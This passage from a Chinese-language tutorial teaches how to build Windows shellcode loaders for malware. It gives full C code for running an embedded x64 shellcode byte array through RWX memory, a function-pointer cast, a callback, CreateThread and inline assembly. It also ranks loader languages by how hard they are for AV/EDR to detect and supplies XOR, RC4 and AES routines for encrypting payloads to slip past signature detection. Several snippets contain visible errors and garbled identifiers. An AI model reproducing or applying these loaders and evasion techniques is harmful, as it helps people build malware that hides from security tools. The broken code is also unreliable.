    // 获取 .rsrc 部分中有效负载的地址
    pPayloadAddress = LockResource(hGlobal);
    if (pPayloadAddress == NULL) {
        // 函数发生错误
        printf("[!] LockResource 失败，错误信息：%d 
", GetLastError());
        return -1;
    }

    // 获取 .rsrc 部分中有效负载的尺寸
    sPayloadSize = SizeofResource(NULL, hRsrc);
    if (sPayloadSize == NULL) {
        // 函数发生错误
        printf("[!] SizeofResource 失败，错误信息：%d 
", GetLastError());
        return -1;
    }

    // 在屏幕上打印指针和尺寸
    printf("[i] pPayloadAddress 变量：0x%p 
", pPayloadAddress);
    printf("[i] sPayloadSize 变量：%ld 
", sPayloadSize);
    printf("[#] 按下 <Enter> 退出...");
    getchar();
    return 0;
}
```

编译并运行上述代码后，shellcode地址及其大小将打印到屏幕上。需要注意的是，此地址位于 .rsrc 部分，该部分为只读内存，任何尝试更改或编辑其中数据的行为都将导致访问冲突错误。要编辑shellcode，必须分配一个大小与shellcode相同的缓冲区，并将其复制过去。可以在此新缓冲区中进行解密有效shellcode等更改。

##### **更新 .rsrc shellcode**

由于shellcode无法直接从资源部分编辑，因此必须将其移动到一个临时缓冲区。为此，使用HeapAlloc分配shellcode的大小的内存，然后使用 memcpy 将shellcode从资源部分移动到临时缓冲区。

```
// 使用 HeapAlloc 调用分配内存
PVOID pTmpBuffer = HeapAlloc(GetProcessHeap(), 0, sPayloadSize);
if (pTmpBuffer != NULL) {
    // 将有效负载从资源部分复制到新缓冲区
    memcpy(pTmpBuffer, pPayloadAddress, sPayloadSize);
}

// 打印缓冲区 (pTmpBuffer) 的基址
printf("[i] pTmpBuffer var : 0x%p 
", pTmpBuffer);
```

由于 pTmpBuffer 现在指向一个保存shellcode 的可写内存去域，因此可以解密shellcode或对其执行任何更新操作。

### shellcode的加载

语言开发Loader的优劣势

|  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- |
| 语言 | 可移植性 | 编译大小 | 执行速度 | 检测难度(静态+动态) | 核心特点与说明 |
| Rust | ★★☆☆☆ | ★★★★☆ | ★★★★★ | **静态**: ★★★☆☆ **动态**: ★★★★☆ | **可移植性**: 同C/C++，需交叉编译。 **大小**: 优秀。静态编译后体积略大于C/C++（通常几百KB），但远小于Go。 **速度**: 极佳。与C/C++媲美，无垃圾回收，零成本抽象。 **检测**: **静态**上，相比C/C++其语言特性使得分析稍复杂，且安全工具规则库对其覆盖较少。**动态**上，具备与C/C++同等级别的底层控制力，免杀潜力巨大。 |
| **Go (Golang)** | ★★★★★ | ★☆☆☆☆ | ★★★★☆ | **静态**: ★★★☆☆ **动态**: ★★★☆☆ | **可移植性**: 极佳。单一源码可轻松编译为几乎所有主流平台的二进制文件。 **大小**: 较差。静态编译后会包含整个运行时，产生数MB到十几MB的大文件，非常显眼。 **速度**: 优秀。编译为机器码，但有GC和运行时开销，通常略慢于C/Rust。 **检测**: **静态**上，其运行时和编译特征（如大量字符串、特定函数序言）极易被识别。**动态**上，其独特的堆栈管理和并发模型会产生较有特征的行为，容易被EDR监控。 |
| C/C++ | ★★☆☆☆ | ★★★★★ | ★★★★★ | **静态**: ★★☆☆☆ **动态**: ★★★★☆ | **可移植性**: 源码可跨平台，但需为不同平台编译对应二进制文件。 **大小**: 极佳。通过静态链接和裁剪，可生成极小的可执行文件（几十KB）。 **速度**: 极佳。原生编译为机器码，无任何中间层，性能最优。 **检测**: **静态**上，API调用序列、字符串等易被特征码匹配。**动态**上，因其直接与系统交互，行为可控性高，易于实现反调试、直接系统调用（Syscall）等高级规避技术。 |
| **C# (.NET)** | ★★★☆☆ (Windows) | ★★★☆☆ | ★★★☆☆ | **静态**: ★☆☆☆☆ (默认) **动态**: ★★★☆☆ (结合技术后) | **可移植性**: 主要限于Windows生态系统。.NET Core虽跨平台，但渗透工具链支持仍以Windows为主。 **大小**: 良好。可编译为单一文件，体积适中（几百KB至几MB）。 **速度**: 良好。JIT编译执行，速度快但仍有.NET运行时开销。 **检测**: **静态**上，默认依赖.NET库，调用托管API（如VirtualAlloc）特征极其明显。**动态**上，结合**D/Invoke**（直接调用Native API）或**Syscall**技术后，可极大降低检测率，能力逼近Native语言。 |
| **汇编 (ASM)** | ☆☆☆☆☆ | ★★★★★ | ★★★★★ | **静态**: ★★★★★ **动态**: ★★★★★ (取决于写法) | **可移植性**: 为零。完全针对特定CPU架构和操作系统编写。 **大小**: 极佳。可编写出极其精巧的代码，体积最小（可达字节级别）。 **速度**: 极佳。直接控制硬件，效率最高。 **检测**: **静态**上，无固定模式，可完全自定义一切，规避特征码检测能力最强。**动态**上，同样拥有终极的控制权，可编写出行为极其隐蔽的代码。但编写难度也是最高的。 |

#### 基于内存加载

WinAPI系统调用用于在堆重动态分配RWX内存，将shellcode移动到新分配的内存区域，并启动一个执行线程。

```
#include <Windows.h>
#include <stdio.h>
#pragma comment(linker, "subsystem:"Windwos" /entry:"mainCRTStartup\ " ")
//隐藏Windows控制台，不谈黑框

int main(){

  char shellcode[]= "shellcode";
  void* exec=VirtualAlloc(0,sizeofshellcode, MEM_COMMIT, PAGE_EXXCUTE_READWRITE);
  memcpy(exec,shellcode,sizeof (shellcode));
  ((void(*)())exec)();
  
}
```

优点

* 使用WinAPI调用是执行代码的标准方法，非常可靠。
* 分配的内存区域不仅是可执行的，而且是可写和可读的，这允许在这个内存区域内修改shellcode，并对shellcode编码或加密。

缺点

WinAPI调用是很容易被成熟的AV/EDR系统检测到

#### 直接函数调用加载

这是最直接的方式。将shellcode存放到一个数组中，然后将其地址强制转换为一个函数指针，然后调用该函数即可。

```
#include <Windows.h>
#include <stdio.h>

unsigned char shellcode[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
	0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
	0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
	0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
	0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
	0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
	0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
	0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
	0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
	0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
	0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
	0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
	0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
	0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
	0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
	0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
	0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
	0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};

int main(){

  ((void(*)()) &shellcode)();
  return 0;
}
```

#### 使用回调函数加载

攻击者可以通过Microsoft Windows回调执行Shellcode攻击，它被广泛用于注入Shellcode正在运行的进程中。微软的说法是：回调函数是托管应用程序中的代码，可帮助非托管DLL函数完成任务。对回调函数的调用间接地从托管应用程序通过DLL函数传递回托管实现。即，系统将shellcode当作回调函数运行 MonitorEnumproc。系统运行了注入shellcode后，IP（指令指针）将活到一个超出界限的值，最终将导致异常。但是在异常上升之前，shellcode已经被系统执行力。比如C甚至C++中，当你想创建回调时，你需要向父函数提供一个指向所需内存空间的指针，回调函数所在的位置，所以我们需要准备这样的执行前的内存空间

```
#include <Windows.h>
#include <stdio.h>

unsigned char shellcode[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
	0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
	0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
	0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
	0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
	0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
	0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
	0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
	0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
	0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
	0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
	0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
	0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
	0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
	0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
	0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
	0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
	0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};

int main(){

    DWORD oldProtect;
    
    VirtualProtect(shellcode, sizeof(shellcode), PAGE_EXECUTE_READ, &oldProtect);
  
    void (*func_ptr)() = ((void(*)()) &shellcode)();

    numWindows((WINDOWENUMPROC)func_ptr, NULL);
    return 0;
}
```

#### 创建线程执行加载

创建一个新的线程，并将其入口点直接设置为shellcode 的地址。新线程会立即开始执行shellcode。

```
#include <Windows.h>
#include <stdio.h>

unsigned char shellcode[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
	0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
	0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
	0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
	0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
	0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
	0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
	0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
	0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
	0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
	0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
	0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
	0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
	0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
	0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
	0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
	0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
	0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};

int main(){

   DWORD oldProtect;
   VirtualProtect(shellcode, sizeof(shellcode), PAGE_EXECUTE_READ, &oldProtect);

    // 创建线程，将线程的起始地址（lpStartAddress）指向 Shellcode
    HANDLE hThread = CreateThread(
        NULL,                   // 默认安全属性
        0,                      // 默认栈大小
        (LPTHREAD_START_ROUTINE) shellcode, // 线程函数指针 -> 指向 Shellcode
        NULL,                   // 无参数传递给线程
        0,                      // 立即执行
        NULL                    // 不需要线程ID
    );

    // 等待新线程执行完毕
    WaitForSingleObject(hThread, INFINITE);
    CloseHandle(hThread);

    return 0;
}
```

#### 基于汇编加载

```
#include <Windows.h>
#include <stdio.h>

unsigned char shellcode[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 0x41, 0x51,
	0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52,
	0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72,
	0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x3C, 0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41,
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 0x20, 0x8B,
	0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
	0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44,
	0x8B, 0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41,
	0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0,
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1,
	0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 0x58, 0x44,
	0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44,
	0x8B, 0x40, 0x1C, 0x49, 0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01,
	0xD0, 0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59,
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0, 0x58, 0x41,
	0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 0xFF, 0xFF, 0x5D, 0x48,
	0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D,
	0x01, 0x01, 0x00, 0x00, 0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5,
	0xBB, 0xE0, 0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF,
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 0xFB, 0xE0,
	0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 0x00, 0x59, 0x41, 0x89,
	0xDA, 0xFF, 0xD5, 0x63, 0x61, 0x6C, 0x63, 0x00
};

void  main(){

{
_asm     //声明编写汇编代码
}
    mov eax, offset shellcode    //将shellcode 的地址写入eax中
    jmp eax												//jmp跳转指令  跳转到shellcode
}
```

### shellcode的加密

Shellcode加密时攻击者使用的一种技术，用于隐藏恶意代码中包含的恶意代码。攻击者使用各种加密算法来隐藏恶意代码，是的安全解决方案更难检测该文件的恶意活动。加密还可以帮助恶意软件在用户系统中保持隐藏状态，不被检测更长事件。总得来说，对我们制作的恶意软件的各个部分进行加密时必要的。

这里推荐一下我写的加密的小工具可以对shellcode进行加密，同时key是随机产生的。觉得好用的话给我点个start。

```
https://github.com/Bu0uCat/EncryptShellcode

支持 AES256、 XOR、 RC4三种加密方式，运行之后会输出key、加密后的shellcode以及其他相关内容
```



#### 加密的利弊

当使用有签名代码的shellcode时，加密可以帮助规避基于签名的检测，但对于其他形式的检测可能是无效的，例如运行式和启发式分析。

需要注意的是，文件中加密的数据越多，其 熵 就越高。熵 值较高的文件可能回导致AV/EDR标记文件或至少将其视为可疑并对其进行进一步审查。

#### 加密的类型

##### XOR异或

异或(XOR)是一种逻辑运算符，用于比较两个二进制数的对应位。他的运算规则如下：

* 如果两个对应位的值相同，结果为0
* 如果连哥哥对应位的值不同，结果为1.

异或运算的原理基于以下观察：

* 反转性质：对一个数连续进行两次异或运算，结果会恢复为原来的数。即 a XOR b XOR b =a。这是因为在异或运算中，相同的位异或得到0，再与另一个数异或并不改变原来的位。
* 交换性质：异或运算满足交换律。即 a XOR b = b XOR a。
* 结合性质：异或运算满足结合律。即： (a XOR b ) XOR c = a XOR (b XOR c)

下面是一个简单的XOR加密以及解密程序

```
int main()
{
    unsigned char XORKey[] = {
        0x6E, 0xE7, 0x41, 0x0E, 0x8A, 0x21, 0x2A, 0xD1, 0x05, 0xA2, 0x0D, 0x34, 0xFA, 0xAB, 0x7A, 0x97 };
    
    unsigned char XORCipherText[] = {
            0x92, 0xAF,..................... };
    unsigned char shellcode[sizeof(XORCipherText)];
    for (int i = 0; i < sizeof(XORCipherText); i++) {
   
        shellcode[i] = XORCipherText[i] ^ XORKey[i % IVSIZE];   //第一次进行XOR是加密
    }

  //在对加密后的shellcode 进行一次XOR即为解密
    
  for (int i = 0; i < sizeof(XORCipherText); i++) {
   
        shellcode[i] = shellcode[i] ^ XORKey[i % IVSIZE];   //第一次进行XOR是加密
    }
    return 0;

}
```

##### RC4

RC4是一种速度块且高效的流密码，它也是一种双向加密算法，可以使用同一个函数进行加密和解密。

下面方法实现稳定缺代码编写良好，共有两个函数 rc4Init 和 rc4Cipher ，它们分别用于初始化 rc4context 结构并执行RC4 加密。

```
typedef struct
{
    unsigned int i;
    unsigned int j;
    unsigned char s[256];
} Rc4Context;

void rc4Init(Rc4Context* context, const unsigned char* key, size_t length)
{
    unsigned int i;
    unsigned int j;
    unsigned char temp;

    // 检查参数
    if (context == NULL || key == NULL)
        return ERROR_INVALID_PARAMETER;

    // 清除上下文
    context->i = 0;
    context->j = 0;

    // 使用恒等置换初始化 S 数组
    for (i = 0; i < 256; i++)
    {
        context->s[i] = (unsigned char) i;
    }

    // 然后对 S 进行 256 次迭代处理
    for (i = 0, j = 0; i < 256; i++)
    {
        // 使用提供的密钥对置换进行随机化
        j = (j + context->s[i] + key[i % length]) % 256;

        // 交换 S[i] 和 S[j] 的值
        temp = context->s[i];
        context->s[i] = context->s[j];
        context->s[j] = temp;
    }
}

void rc4Cipher(Rc4Context* context, const unsigned char* input, unsigned char* output, size_t length)
{
    unsigned char temp;

    // 还原上下文
    unsigned int i = context->i;
    unsigned int j = context->j;
    unsigned char* s = context->s;

    // 加密循环
    while (length > 0)
    {
        // 调整索引
        i = (i + 1) % 256;
        j = (j + s[i]) % 256;

        // 交换 S[i] 和 S[j] 的值
        temp = s[i];
        s[i] = s[j];
        s[j] = temp;

        // 输入和输出有效吗？
        if (input != NULL && output != NULL)
        {
            // 使用 RC4 流对输入数据进行异或运算
            *output = *input ^ s[(s[i] + s[j]) % 256];

            // 增加数据指针
            input++;
            output++;
        }

        // 剩余要处理的字节数
        length--;
    }

    // 保存上下文
    context->i = i;
    context->j = j;
}
```

**RC4加密**

以下代码演示了如何使用 rc4Init 和rc4Cipher 函数来加密shellcode

```
// 初始化
	Rc4Context ctx = { 0 };

	// 加密用密钥
	unsigned char* key = "he11ow0rd";
	rc4Init(&ctx, key, strlen(key));

	// 加密 //
	// plaintext - 待加密的数据
	// ciphertext - 用来存储加密后数据的缓冲区
	rc4Cipher(&ctx, plaintext, ciphertext, sizeof(plaintext));
```

**RC4解密**

以下代码演示了如何使用 rc4Init 和rc4Cipher 函数来解密shellcode

```
// 初始化
    Rc4Context ctx = { 0 };

    // 用于解密的密钥
    unsigned char* key = "he11ow0rd";
    rc4Init(&ctx, key, strlen(key));

    // 解密 //
    // ciphertext - 要解密的加密有效负载
    // plaintext - 用于存储输出的明文数据的缓冲区
    rc4Cipher(&ctx, ciphertext, plaintext, sizeof(ciphertext));
```

##### AES

AES加密算法：高级加密标准(AES)。它是一种对称密钥算法，表示加密和解密都使用相同的密钥。AES加密有数种类型，如AES128、AES192和AES256，它们按密钥大小有所不同。例如，AES128使用128位密钥，而AES256使用256位密钥。

此外，AES可以使用不同的 分组密码操作模式，如CBC和GCM。根据AES模式，AES算法将需要一个附加组件以及称为 初始化向量或IV的加密密钥。提供IV可为加密过程提供额外的安全层。

无论选择哪种AES类型，AES都始终需要128位输入并生成128位输出块。请记住，输入数据应为16字节(12位)的倍数。如果要加密的shellcode不是16字节的倍数，则需要填充以增加shellcode的大小并使其称为16字节的倍数。

本节演示的代码使用的AES-256-CBC加密。通过利用WinAPI的bCrypt库实现，由于使用AES256-CBC，因此该代码使用了32字节密钥和16字节IV。

**AES结构**

首先，创建一个 AES 结构，其中包含执行加密和解密所需的必须数据。

```
typedef struct _AES {

	PBYTE	pPlainText;         // 明文数据的基地址
	DWORD	dwPlainSize;        // 明文数据的大小

	PBYTE	pCipherText;        // 密文数据的基地址
	DWORD	dwCipherSize;       // 密文数据的大小（如果填充了数据，这个值可能不同于 dwPlainSize）

	PBYTE	pKey;               // 32 字节密钥
	PBYTE	pIv;                // 16 字节 IV（初始化向量）

} AES, *PAES;
```

**SimpleEncryption包装器**

SimpleEncryption 函数有六个参数，用于初始化 AES 结构。一旦结构初始化，该函数将调用 InstallAesEncryption 来执行AES加密过程。请注意，其中的两个参数是 OUT 参数，因此函数返回以下内容：

* pCipherTextData - 指向包含密文数据的最新分配堆缓冲区的指针。
* sCipherTextSize - 密文缓冲区的大小。

如果InstallAesEncryption 成功，则该函数返回 TRUE，否则返回 FALSE。

```
// 封装 InstallAesEncryption 的函数，简化操作
BOOL SimpleEncryption(IN PVOID pPlainTextData, IN DWORD sPlainTextSize, IN PBYTE pKey, IN PBYTE pIv, OUT PVOID* pCipherTextData, OUT DWORD* sCipherTextSize) {

    if (pPlainTextData == NULL || sPlainTextSize == NULL || pKey == NULL || pIv == NULL)
        return FALSE;

    // 初始化结构
    AES Aes = {
        .pKey        = pKey,
        .pIv         = pIv,
        .pPlainText  = pPlainTextData,
        .dwPlainSize = sPlainTextSize
    };

    if (!InstallAesEncryption(&Aes)) {
        return FALSE;
    }

    // 保存输出
    *pCipherTextData = Aes.pCipherText;
    *sCipherTextSize = Aes.dwCipherSize;

    return TRUE;
}
```

**加密包装函数**

SimpleDecryption 函数也包含六个参数，其行为和SimpleEncryption类似，不同之处在于它调用了 InstallAesDecryption函数，它会返回两个不同的值。

* pPlainTextData - 指向新分配的堆缓冲区，其中包含铭文数据。
* sPlainTextSize - 铭文缓冲区的大小。

如果InstallAesDecryption成功，则该函数返回TRUE,否则返回FALSE。

```
// 用于使工作更简单的 InstallAesDecryption 的包装函数
BOOL SimpleDecryption(IN PVOID pCipherTextData, IN DWORD sCipherTextSize, IN PBYTE pKey, IN PBYTE pIv, OUT PVOID* pPlainTextData, OUT DWORD* sPlainTextSize) {

	if (pCipherTextData == NULL || sCipherTextSize == NULL || pKey == NULL || pIv == NULL)
		return FALSE;

	// 初始化结构
	AES Aes = {
		.pKey          = pKey,
		.pIv           = pIv,
		.pCipherText   = pCipherTextData,
		.dwCipherSize  = sCipherTextSize
	};

	if (!InstallAesDecryption(&Aes)) {
		return FALSE;
	}

	// 保存输出
	*pPlainTextData = Aes.pPlainText;
	*sPlainTextSize = Aes.dwPlainSize;

	return TRUE;
}
```

**Cryptographic Next Generation (CNG)**

Cryptographic Next Generation (CNG) 是一组可供操作系统应用程序使用的加密函数。CNG 提供了一个标准化的加密操作接口，使得开发人员在应用程序中实现安全功能变得更加容易。InstallAesEncryption 和 InstallAesDecryption 函数均使用 CNG。

InstallAesEncryption 函数

InstallAesEncryption 是执行 AES 加密的函数。该函数有一个参数 PAES，它是已填充的 AES 结构的指针。函数中使用的 bCrypt 库函数如下所示：

* BCryptOpenAlgorithmProvider - 用于加载 BCRYPT\_AES\_ALGORITHM 密码学下一代(CNG)提供程序，以启用密码学函数的使用。
* BCryptGetProperty - 该函数被调用两次，第一次检索BCRYPT\_OBJECT\_LENGTH 的值，第二次检索BCRYPT\_BLOCK\_LENGTH 熟悉标识符的值。
* BCryptSetProperty - 用于初始化 BCRYPT\_OBJECT\_LENGTH 属性标识符。
* BCryptGenerateSymmetricKey - 用于从指定的输入AES密钥创建一个密钥对象
* BCryptEncrypt - 用于加密指定的数据库。该函数被调用两次，第一次检索加密数据的大小以分配该大小的堆缓冲区。第二次调用加密数据并将密文存储在分配的堆中。
* BCryptDestroyKet - 用于清理，通过销毁使用BCryptGenerateSymmetricKey 创建的密钥对象。
* BCryptCloseAlgorithmProvider - 用于清理， 通过关闭之前使用 BCryptOpenAlgorithmProvider 创建的算法提供者的对象句柄。

如果函数成功加密有效负载，则返回 TRUE，否则返回 FALSE。

```
// 加密实现
BOOL InstallAesEncryption(PAES pAes) {

  BOOL                  bSTATE           = TRUE;
  BCRYPT_ALG_HANDLE     hAlgorithm       = NULL;
  BCRYPT_KEY_HANDLE     hKeyHandle       = NULL;

  ULONG       		cbResult         = NULL;
  DWORD       		dwBlockSize      = NULL;
  
  DWORD       		cbKeyObject      = NULL;
  PBYTE       		pbKeyObject      = NULL;

  PBYTE      		pbCipherText     = NULL;
  DWORD       		cbCipherText     = NULL;


  // 初始化“hAlgorithm”为 AES 算法句柄
  STATUS = BCryptOpenAlgorithmProvider(&hAlgorithm, BCRYPT_AES_ALGORITHM, NULL, 0);
